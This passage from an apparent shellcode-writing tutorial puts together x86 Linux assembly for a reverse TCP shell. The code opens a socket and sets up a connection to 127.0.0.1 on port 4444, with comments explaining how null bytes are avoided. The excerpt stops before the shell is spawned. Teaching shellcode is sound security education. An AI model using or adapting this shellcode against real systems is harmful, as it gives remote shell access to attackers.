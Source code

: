 ## Putting it all together

If you followed all the steps you should have an assembly file that looks similar to this:

```
global _start

section .text

_start:
;sys_socket:
	; [+] Setting up socketcall() for SYS_SOCKET
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	; EAX = socketcall()
	; EBX = SYS_SOCKET[1]
	; ECX = (int domain, int type, int protocol)
	xor    eax,eax	;
	mov    al,0x66	; setting syscall as socketcall() [REF1]
	xor    ebx,ebx	;
	push   ebx	; setting ECX param in memory - 0x0 (0 for tcp(7) stream sockets)	:	[socket_struct --> REF3]
	inc    ebx	; setting EBX 0x1 (socketcall: SYS_SOCKET[1]) 				:	[socketCall_struct --> REF4]
	push   ebx	; setting ECX param in memory - 0x1,0x0 (socket: SOCK_STREAM[1]) 	:	[socket --> REF2]
	push   0x2	; setting ECX param in memory - 0x2,0x1,0x0 (socket: AF_INET[2])	:	[socket --> REF2]
	mov    ecx,esp	; ECX points to args on stack for socket() 				:	[socket_struct --> REF3]
	int    0x80	; calling socketcalll(SYS_SOCKET, (socket(AF_INET, SOCK_STREAM, 0))	


save_sockfd:
	xor    esi,esi	;
	mov    esi,eax 	; save sockfd in ESI for future syscalls


sys_connect:
	; [+] Setting up socketcall() for SYS_CONNECT
	; int socketcall(int call, unsigned long *args)
	; int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
	; EAX = socketcall
	; EBX = SYS_CONNECT[3]
	; ECX = (int sockfd, const struct sockaddr *addr, socklen_t addrlen) : 
	; Legend: If all set - 1(1,1,1). Else if not set 0(0,0,0)
	xor    eax,eax		;
	mov    al,0x66		; setting syscall as socketcall()					:	[vim /usr/include/i386-linux-gnu/asm/unistd_32.h]
	xor    ebx,ebx		; 
	mov    bl,0x3		; setting function as SYS_CONNECT					:	[socketcall --> REF1]
	xor    edx,edx		; 
	mov    edx, 0x04030382	; 127.0.0.1 flipped and converted is 0x100007f. But this will give us errors because of NULL bytes 
        sub    edx, 0x03030303	; so we put a larger number and subtract it down to 0x100007f		: 	[connect --> REF5]
	push   edx		; we then push it to stack which avoids the NULL break errors		:	[connect --> REF5]
	push   word 0x5c11	; 4444 flipped and hex encoded is 0x5c11 - pushed to stack		:	[connect --> REF5]
	push   word 0x2		; setting sa_family member of sockaddr to AF_INET (0x02)		:	[connect --> REF5]
```